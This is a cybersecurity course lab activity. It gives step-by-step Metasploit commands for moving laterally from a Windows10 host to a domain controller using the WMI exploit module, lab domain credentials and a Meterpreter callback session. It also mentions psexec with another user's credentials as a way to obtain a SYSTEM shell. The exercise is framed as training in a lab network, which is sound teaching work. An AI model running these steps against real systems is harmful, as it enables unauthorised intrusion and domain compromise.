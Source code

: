 ## Activity File: Lateral Movement 

For this activity, you will use bbaner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

### Instructions

1. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- ![Screenshot depicts the module settings](../../../Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system](../../../Images/wmiexploit.PNG)		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows10 and WINDC01, instead of Kali to WINDC01. 

---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
